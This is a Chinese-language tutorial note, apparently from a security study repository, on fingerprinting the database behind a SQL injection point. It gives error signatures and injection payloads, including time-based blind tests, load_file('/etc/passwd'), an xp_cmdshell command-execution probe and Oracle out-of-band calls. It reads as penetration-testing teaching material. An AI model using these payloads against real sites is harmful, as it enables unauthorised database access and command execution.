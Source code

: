 ### 找到一个注入点怎么判断对方什么数据库

**1. 报错信息判断**

最直接的方法就是观察数据库的报错信息。如果网站没有对错误信息进行处理，数据库的报错会直接显示在页面上，通常包含了数据库的名称或版本信息

- **MySQL**：`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use`
- **SQL Server**：`Microsoft OLE DB Provider for SQL Server`、`Incorrect syntax near '...`
- **Oracle**：`ORA-01756: quoted string not properly terminated`
- **PostgreSQL**：`PostgreSQL query failed: ERROR: parser: parse error`
- **SQLite**：`sqlite_query()`、`SQL syntax error`

**2. 特有函数和语法判断**

即使没有报错信息，你也可以通过注入特定数据库的函数或语法，观察页面的响应来判断。这种方法常用于**盲注**场景

**MySQL**

- **`version()`**：`and 1=1 and version()`。如果页面返回了版本号（如 `5.5.53`），那就是 MySQL
- **`sleep()`**：`and sleep(5)`。如果页面延迟了 5 秒，那很有可能是 MySQL
- **`user()`**：`and user()`
- **`database()`**：`and database()`
- **`load_file()`**：`and load_file('/etc/passwd')`

**SQL Server**

- **`@@version`**：`and 1=1 and @@version`。如果页面返回版本信息，则是 SQL Server
- **`xp_cmdshell`**：`and 1=1;exec xp_cmdshell('ping 127.0.0.1')--`。如果请求延迟，可能存在命令执行漏洞
- **`db_name()`**：`and db_name()`
- **`system_user`**：`and system_user`

**Oracle**

- **`user`**：`and user`
- **`sys.dba_tables`**：`and 1=1 and (select count(*) from sys.dba_tables)`。如果返回正常的页面，说明存在这张表
- **`dbms_pipe.receive_message()`**：`and 1=1 and dbms_pipe.receive_message('a',5)`。可以用来进行带外信道（OOB）注入

**PostgreSQL**

- **`pg_sleep()`**：`and pg_sleep(5)`。如果页面延迟，很可能是 PostgreSQL
- **`version()`**：`and version()`
- **`pg_database`**：`and 1=1 and (select count(*) from pg_database)`

**3. 不同数据库的查询差异**

每种数据库的查询语法都有一些细微的差别，可以利用这些差异来判断

- **字符串拼接**：
  - **MySQL**：`union select 'a','b'`
  - **SQL Server**：`union select 'a'+'b'`
  - **Oracle**：`union select 'a'||'b'`
- **注释符号**：
  - **MySQL/PostgreSQL**：`-- `（后面需要加空格）、`#`
  - **SQL Server/Oracle**：`--`
  - **内联注释**：`/**/` 可以在多种数据库中使用